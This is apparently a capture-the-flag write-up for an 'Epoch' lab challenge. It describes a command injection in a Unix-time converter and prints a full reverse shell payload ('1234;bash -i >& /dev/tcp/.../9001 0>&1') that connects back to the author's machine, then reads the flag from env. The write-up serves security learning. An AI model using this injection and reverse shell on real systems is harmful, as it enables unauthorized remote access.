 # Epoch

### Epoch
![image](https://github.com/user-attachments/assets/9b865ec0-8c4f-41f3-af37-5f6e706290ed)<br />
I need to inject commans into this converter. An **epoch**, also known as **Unix time** is the number of seconds that passed from 1970 at 00:00:00 UTC. Simply adding `;` and then a command injects the command: <br />
![image](https://github.com/user-attachments/assets/30385886-4429-40c2-ad59-2fea879c254e)<br />
So I spawned a reverse shell using the payload `1234;bash -i >& /dev/tcp/10.11.85.53/9001 0>&1`.
At this point I was stuck for a bit and had to look at the hint. The flag is in an environment variable, just run `env` to read it.

